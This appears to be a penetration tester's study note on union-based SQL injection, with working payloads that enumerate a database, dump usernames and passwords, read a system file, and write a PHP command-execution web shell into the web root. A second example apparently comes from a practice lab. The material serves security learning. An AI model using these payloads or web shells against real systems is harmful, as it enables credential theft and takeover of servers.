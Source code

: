 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### example 1

First get out error with single quote

`/debug.php?id='`

Then use "order by" to find all columns.  Keep increasing until you have an error!  If error occurs on 4, then you have 3 columns!
```
/debug.php?id=1 order by 1,2,3
```

Next, we use UNION to discover which columns are being displayed in the page:
```
/debug.php?id=1 union all select 1, 2, 3
```


We will target #3, as it seems to have the most space available.
```
/debug.php?id=1 union all select 1, 2, @@version
```

```
/debug.php?id=1 union all select 1, 2, user()
```

Enumerate DB tables and column structures:
```
/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
```

Target users table and retrieve the column names:
```
/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
```

Extract usernames and passwords:
```
/debug.php?id=1 union all select 1, username, password from users
```

#### Reading files
```
/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

Notice when we have an error, we get the whole file path.  

We can use this info to craft a malicious php file and place it into the root web directory.
```
/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

While we do get an error message, the file did get created and works just fine:
```
/backdoor.php?cmd=ipconfig
```

#### example 2
Example from Dante:
```
http://172.16.1.12/blog/single.php?id='
```

The above threw an error:
>You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1

We append some known tricks to break out the syntax:
	* If nothing happens here, just continue on to UNION statements!
```
http://172.16.1.12/blog/single.php?id=' -- -
```

We then build up the UNION statement, starting at 1, until the web page renders properly again.  Also, we can see some of the numbers on screen, we can pick which entry is good for our details next.
```
' UNION select 1,2,3,4,5,6,7,8,9-- -
```

Find the version of MariaDB:
```
' UNION select 1,version(),3,4,5,6,7,8,9-- -
```
10.4.13-MariaDB

Retrieve Database name:
```
' UNION select 1,database(),3,4,5,6,7,8,9-- -
```
blog_admin_db

Current user:
```
' UNION select 1,user(),3,4,5,6,7,8,9-- -
```

datadir:
```
' UNION select 1,@@datadir,3,4,5,6,7,8,9-- -
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
